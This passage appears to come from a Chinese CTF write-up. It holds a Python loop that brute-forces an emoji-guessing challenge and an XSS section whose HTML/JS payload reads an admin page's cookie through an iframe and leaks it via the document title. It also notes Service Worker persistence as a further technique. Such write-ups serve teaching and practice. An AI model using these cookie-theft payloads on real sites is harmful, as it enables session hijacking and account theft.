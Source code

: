 ```python
emoji_result = ['0'] * 64

for i in range(128):
    params['guess'] = emojis[i] * 64
    response = requests.get(url, headers=headers, params=params)
    try:
        results = re.search(pattern, response.text).group()
        print(results)
        for j in range(64):
            if results[j] == '🟩':
                emoji_result[j] = emojis[i]
        print(emoji_result)
    except:
        print(response.text)

params['guess'] = ''.join(emoji_result)
response = requests.get(url, headers=headers, params=params)
print(response.text)
session.close()
```

## 第三新 XSS

### 巡猎

很基础的 XSS 绕过路径，parent 可以利用内联读取子路径下的 cookie，连响应头都不需要特殊设置：

```html
<head>
</head>
<body>
<script>
    iframe = document.createElement('iframe');
    iframe.src = 'http://127.0.0.1:5000/admin';
    iframe.onload = function() {
        document.title = iframe.contentWindow.document.cookie;
    };
    document.body.appendChild(iframe);
</script>
</body>
```

### 记忆

看到源代码时有些懵，先访问攻击页面，关闭后再访问个人页面也会被攻击？脑海中 JSONP、onbeforeunload 事件一闪而过，然并卵……难道有什么 GoogleDriver 的 exp？……当然这里也没有。最后还是看了提示才知道要用 Service Worker

Service Worker 相当于服务器和客户端的一个中间人，能提供持久化控制，但有`https`和`scope`的限制，且生命周期是 24小时

代码参考下面两篇文章：

- [Xss Via Service Worker-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2069767)
